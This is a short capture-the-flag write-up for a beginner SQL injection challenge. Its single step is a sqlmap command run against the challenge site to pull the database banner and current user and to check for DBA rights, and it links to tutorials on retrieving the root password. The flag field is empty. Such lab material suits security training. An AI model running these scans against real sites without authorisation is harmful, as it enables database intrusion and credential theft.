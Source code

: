 #  SQL injection - 2 - Get the root user. (4) 

## Challenge 
SQL injection is probably one of the most common vectors of attack for poorly designed websites.
<a href="https://beginnersqli.hfctf.ca/">This page</a> is vulnerable to it. You can use username 
test and password test if you want to test the page before the injection.

## Steps
1. `sqlmap -u https://beginnersqli.hfctf.ca/ -o -b --current-user --is-dba`

## Documentation
- <a href="https://youtu.be/6QvpyEsVnvg">This video</a> explains how to get the root password.
- <a href="https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/"></a>

# Flag
``
